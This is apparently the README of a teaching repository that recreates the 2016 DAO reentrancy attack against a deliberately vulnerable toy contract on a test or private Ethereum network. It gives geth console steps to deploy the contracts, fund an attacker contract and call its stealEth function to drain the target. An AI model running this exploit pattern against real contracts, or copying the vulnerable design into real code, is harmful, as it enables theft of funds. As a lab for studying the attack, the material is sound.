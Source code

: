 # mock-dao-hack
I wanted to recreate a recurisive send exploit similar to the one used by an attacker to drain "The DAO". I wrote an extremely simplified DAO contract (`dumbDAO.sol`) which is vulnerable to this hack. Included is an attacker contract (`attacker.sol`) which, if executed correctly will drain the dumbDAO contract of its ether.

#Running the exploit
Spin up a new geth node and console on the testnet or a privatenet (would not recommend trying this on the main Ethereum blockchain for obvious reasons). I've included a shell script called `compile_solidity.sh` which you can use to automatically compile the solidity contract code and create a deployment javascript file for you to load into your console.

    ./compile_solidity.sh dumbDAO.sol

If this runs correctly it should output a `loadScript` function call with the directory to the deployment js file to run as a parameter:

    loadScript('/Path/to/your/ws/mock-dao-hack/contracts/deploy_dumbDAO.js');

You should be able to copy and paste this straight into your geth console to deploy the contract. Once it is mined you'll see a log message confirming that the contract mined correctly. The contract javascript var is its all lowercase name (`dumbdao`). Deploy both contracts (doesn't really matter what order).

Once they are both deployed, lets set a few things up before executing the exploit...
Optional: run the event listener javascript file - sometimes its helpful to have feedback on the javascript console about which events are runnning:

        loadScript('/Path/to/your/ws/mock-dao-hack/events.js');

First, buy some DAO tokens as an innocent investor (adjust `eth.accounts[0]` as necessary).

    //buy 100 ether worth of DAO tokens
    dumbdao.buyTokens({from:eth.accounts[0],value:web3.toWei(100),gas:3000000});

    //After that transaction has been mined, check to make sure the tokens were appropriately assigned
    web3.fromWei(dumbdao.balances(eth.accounts[0]));
    //and check on the balance of the contract itself
    web3.fromWei(eth.getBalance(dumbdao.address));

Next lets prepare the attacker contract:

    attacker.setDAOAddress(dumbdao.address,{from:eth.accounts[0],gas:3000000});
    attacker.fundMe({from:eth.accounts[0],value:web3.toWei(5),gas:3000000});
    attacker.buyDAOTokens(web3.toWei(5),{from:eth.accounts[0],gas:4000000});

    //check Token balance for attacker
    web3.fromWei(dumbdao.balances(attacker.address));

The attacker contract should now be a token holder with 5 ether worth of DAO tokens. To execute the exploit...

    attacker.stealEth(web3.toWei(5),{from:eth.coinbase,gas:4000000})

Check the balances of both contracts as well as the balances of the innocent investor...the DAO now has less ether than it thinks it has.


#Further reading
DAO Hack FAQ:
https://www.reddit.com/r/ethereum/comments/4os7l5/the_big_thedao_heist_faq/

In depth Analysis:
http://vessenes.com/deconstructing-thedao-attack-a-brief-code-tour/

http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/

https://pdaian.com/blog/chasing-the-dao-attackers-wake/
